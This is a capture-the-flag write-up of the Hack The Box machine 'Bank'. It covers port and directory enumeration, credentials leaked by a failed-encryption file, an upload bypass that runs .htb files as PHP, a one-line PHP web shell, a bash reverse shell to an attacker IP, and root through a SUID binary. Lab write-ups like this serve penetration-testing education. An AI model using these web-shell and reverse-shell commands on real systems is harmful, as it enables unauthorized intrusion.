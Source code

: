 ![logo](/logo.png)

# [Bank- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 16 Jun 2017 as the eight machine on HTB,Bank created by [makelarisjr](https://app.hackthebox.com/users/95) without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *ssh
  
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/haircut 10.10.10.24
```

###### Output 

![](/Linux/Linux-Easy/Bank/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/bank 10.10.10.29 -Pn                                                                                        ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 22:03 EAT
Nmap scan report for 10.10.10.29
Host is up (0.36s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.17 seconds
```

looking at the results  we find out that there are 3 ports open and its a `Ubuntu`and its running an `Apache httpd 2.4.7`. 

port[22]-ssh
port[53]- dns
port[80]-tcp

when we naviagate to [http://10.10.10.29](http://10.10.10.29)  we find a page of  Apache 

![](/Linux/Linux-Easy/Bank/Screenshots/apache.png)

so looking at the page i think its a misconfigaration of the apache so lets foward this to burpsuite so that we can see the request and also change the hostname to `bank.htb` when looking at the site we find the login form

![](/Linux/Linux-Easy/Bank/Screenshots/login.png)

am going to run now `gobuster` so get some directories

```sh
gobuster dir -u http://bank.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -k 
```

will find the balance-transfer directory after a while.

![](/Linux/Linux-Easy/Bank/Screenshots/gobuster.png)

we find an interesting directories `balance-transfer`  

![](/Linux/Linux-Easy/Bank/Screenshots/balances.png)

looking at the sizes we find that most of the sizes are same so let click one and find out what it is. So upon clicking we find that it has encrypted the account credentials .

![](/Linux/Linux-Easy/Bank/Screenshots/encyrption.png)

so with this information lets try to find an encyrption that may have failed just by looking at the sizes of the files. We find one which seem interesting 

![](/Linux/Linux-Easy/Bank/Screenshots/files.png)

upon oppening we can see that this one failed and we are able to get credentials

![](/Linux/Linux-Easy/Bank/Screenshots/credentials.png)

so we can use the credential to be able to login in and we find a account dashboard

![](/Linux/Linux-Easy/Bank/Screenshots/account.png)

so i can find a support section which seem to be a ticket system and has file upload so i start by uploading and image just to see what happens.

![](/Linux/Linux-Easy/Bank/Screenshots/support.png)

after viewing a the page a find relevant information that a file with an extention of `.htb` will be executed as php

![](/Linux/Linux-Easy/Bank/Screenshots/sources.png)

so i locate a php reverse shell so that i can update it and upload it to get a shell.But first if we can be able to get a `cmd ` then we can run

```sh
echo '<?php system($_GET["cmd"]); ?>' > shell.htb
```

![](/Linux/Linux-Easy/Bank/Screenshots/id.png)

so what i do is to create a reverse shell as `rev.htb` and i go to the support and upload it so that by using the shell i can be able to execute bash so that it can execute `rev.sh`

```sh
bash -i >& /dev/tcp/10.10.14.15/1337 0>&1
```

![](/Linux/Linux-Easy/Bank/Screenshots/bash.png)

and just like that i get the shell

![](/Linux/Linux-Easy/Bank/Screenshots/shell.png)

## Takeover
 After geting the reverse shell we have to do some adjusment to our reverse shell to make it ready for using by doing a stty escalation to get an interactive shell:
#### code-stty
 ```bash
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 [ctrl] + z
 stty raw -echo ; fg
 ```

```sh
export TERM=screen-256color
export SHELL=bash
stty rows 29 cols 135
reset
```

![](/Linux/Linux-Easy/Bank/Screenshots/stty.png)

you can get the `user flag` from 

![](/Linux/Linux-Easy/Bank/Screenshots/userflag.png)

Let us run an enumeration script known as [LinEnum](https://github.com/rebootuser/LinEnum).

![](/Linux/Linux-Easy/Bank/Screenshots/LinEnum.png)

it revels that an interesting `SUID`  `/var/htb/bin/emergency`

![](/Linux/Linux-Easy/Bank/Screenshots/emergency.png)

running it it gives us root

![](Linux/Linux-Easy/Bank/Screenshots/root.png)

you can get the `root flag`

![](/Linux/Linux-Easy/Bank/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------

